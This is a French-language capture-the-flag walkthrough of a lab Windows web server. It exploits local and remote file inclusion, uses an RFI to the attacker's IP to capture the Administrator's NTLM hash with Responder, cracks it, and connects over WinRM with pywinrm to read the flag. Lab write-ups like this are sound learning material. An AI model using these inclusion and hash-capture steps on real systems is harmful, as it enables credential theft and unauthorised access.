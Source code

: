 ## App web
La machine expose un site web sur son port 80. 
On remarque que l'on peut changer la langue, et dans ce cas l'URL devient : http://10.10.10.10/page=french.html
### Local File Inclusion
De là on essaie de faire une attaque LFI (Local File Inclusion) et ça fonctionne !
L'URL suivant permet d'afficher un fichier local du serveur Windows http://10.10.10.10/page=../../../../../windows/system32/drivers/etc/hosts.
### Remote File Inclusion
On remarque que l'on peut également demander au serveur de nous servir un fichier présent sur une autre machine. On le teste en créant un serveur sur notre machine et en précisant notre IP dans le LFI
http://10.10.10.10/page=//10.10.15.15/myfile.txt

## Responder
On met en route l'outil Responder sur notre machine et on reproduit le RFI précédent. Le serveur distant envoie le hash NTLM de l'utilisateur Administrator lorsqu'il essaie de récupérer le fichier que l'on héberge `myfile`.
```bash
ip a
# On identifie l'interface réseau qui correspond au VPN : "tun0"
python3 Responder.py -I tun0
# On intercepte le hash NTLM
```

Ainsi, on récupère le hash NTLM du compte local Administrator de la machine Windows.
On casse le hash avec John The Ripper, et le mot de passe est "badminton".

## WinRM
Un autre port est ouvert sur la machine : le 5985, qui expose le service de prise en main à distance WinRM.
On utilise la librairie python `pywinrm` pour s'y connecter avec les identifiants récupérés.
```python
import winrm
session = winrm.Session('10.10.10.10', auth=('Administrator', 'badminton'), transport = 'ntlm')
r = session.run_cmd('dir')
r.std_out
# ...
# on finit par trouver le flag et l'afficher
r = session.run_cmd('type ../mike/Desktop//flag.txt')
r.std_out
```




